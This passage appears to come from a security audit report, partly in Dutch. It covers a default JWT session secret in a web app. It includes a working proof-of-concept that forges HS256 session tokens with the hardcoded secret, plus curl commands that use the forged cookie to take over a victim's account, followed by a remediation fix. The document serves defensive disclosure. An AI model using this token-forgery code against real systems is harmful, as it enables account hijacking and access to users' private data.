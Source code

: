 #### Attack Scenario

**Stap 1: Discover Weak Secret**
```bash
# Check if SESSION_SECRET is set in production
curl -I https://liefdesliedje.app/api/auth/exchange
# If server runs without env vars, uses default secret
```

**Stap 2: Forge JWT Token**
```javascript
const crypto = require('crypto');

function forgeToken(userId) {
  const header = { alg: 'HS256', typ: 'JWT' };
  const payload = { userId, exp: Date.now() + 86400000 };

  const b64Header = Buffer.from(JSON.stringify(header)).toString('base64url');
  const b64Payload = Buffer.from(JSON.stringify(payload)).toString('base64url');
  const data = `${b64Header}.${b64Payload}`;

  // Using known default secret
  const sig = crypto
    .createHmac('sha256', 'dev-secret-change-me')
    .update(data)
    .digest('base64url');

  return `${data}.${sig}`;
}

// Forge session for any userId
const fakeToken = forgeToken('victim-user-id-12345');
```

**Stap 3: Hijack Account**
```bash
# Use forged token to access victim's data
curl -H "Cookie: APP_SESSION=${fakeToken}" \
  https://liefdesliedje.app/api/mobile/conversations
# Expected: Full access to victim's conversations
```

#### Impact
- **Authentication Bypass:** Complete account takeover mogelijk
- **Data Breach:** Toegang tot alle user data via mobile APIs
- **Privilege Escalation:** Forge admin tokens
- **GDPR Violation:** Unauthorized access to personal data

#### Remediation

**Fix 1: Enforce Secret in Production**
```typescript
function getSecret() {
  const secret = process.env.SESSION_SECRET ||
                 process.env.NEXTAUTH_SECRET;

  if (!secret) {
    if (process.env.NODE_ENV === 'production') {
      throw new Error(
        'CRITICAL: SESSION_SECRET must be set in production. ' +
        'Generate with: openssl rand -hex 32'
      );
    }
    // Only allow fallback in development
    console.warn('⚠️ Using dev secret - NOT FOR PRODUCTION');
    return 'dev-secret-change-me';
```